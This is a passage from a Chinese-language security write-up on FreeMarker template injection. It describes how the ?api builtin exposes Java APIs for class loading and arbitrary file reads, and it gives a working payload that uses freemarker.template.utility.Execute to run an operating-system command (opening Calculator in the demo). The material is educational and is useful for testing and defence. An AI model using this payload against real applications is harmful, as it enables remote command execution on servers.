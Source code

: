 #### [api 内置函数](#toc_api)

value?api 提供对 value 的 API（通常是 Java API）的访问，例如 `value?api.someJavaMethod()` 或 `value?api.someBeanProperty`。可通过 `getClassLoader`获取类加载器从而加载恶意类，或者也可以通过 `getResource`来实现任意文件读取。  
但是，当`api_builtin_enabled`为 true 时才可使用 api 函数，而该配置在**2.3.22 版本**之后默认为 false。

### [FreeMarker 模版注入示例：](#toc_freemarker_2)

**测试版本——2.3.23**  
[![12.png](assets/1698894650-221dfd888b21017934d53ba5937970dd.png)](https://storage.tttang.com/media/attachment/2022/01/18/a43e086e-3005-41fb-8b96-976797cf6310.png)

**模版注入执行任意命令**  
渲染内容：

```plain
<#assign value="freemarker.template.utility.Execute"?new()>${value("open /Applications/Calculator.app")}
```

[![13.png](assets/1698894650-74bec5c610e21729d07bc1eafc8a92c3.png)](https://storage.tttang.com/media/attachment/2022/01/18/f572ee9d-4c32-4eea-be45-3f6e8c0518ae.png)
